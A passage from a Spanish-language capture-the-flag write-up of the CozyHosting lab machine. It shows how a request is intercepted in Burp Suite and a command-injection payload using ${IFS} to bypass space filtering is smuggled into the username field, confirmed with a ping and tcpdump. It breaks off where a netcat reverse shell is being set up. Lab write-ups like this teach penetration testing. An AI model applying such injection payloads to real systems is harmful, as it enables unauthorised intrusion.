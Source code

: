 ### Capturando la solicitud

Al rellenar la información con cualquier texto (partyhack en este caso), se procede a capturar el la request con burpsuite y posteriormente enviarla al repeater.

Luego de enviar la solicitud analizamos la respuesta del servidor y al parecer está ejecutando algo relacionado con ssh.

![CozyHosting 5](/assets/images/post/2024/cozy5.png)

Intenta ejecutar el comando "ssh" usando como los datos proporcionados: partyhack en ambos casos.

### Probando PING

Teniendo esa información podemos intentar ejecutar comandos en el sistema, usando, en este caso un "ping" a nuestra máquina con reemplazando la línea 15 de la solicitud:

```sh
host=10.10.14.13&username=;ping${IFS}-c${IFS}4${IFS}10.10.14.13;
```

No sin antes haber ejejctado "tcpdump" para poner en escucha con el protocolo ICMP:

```sh
sudo tcpdump ip proto \\icmp -i tun0
```

Ya en escucha, a ejecutar el ping se debería recibirlo como a continuación:

![CozyHosting 6](/assets/images/post/2024/cozy6.png)

### Ejecutando la reverse shell

Se pone en escucha a la máquina local usando netcat en el puerrto 4747 con lo siguiente:
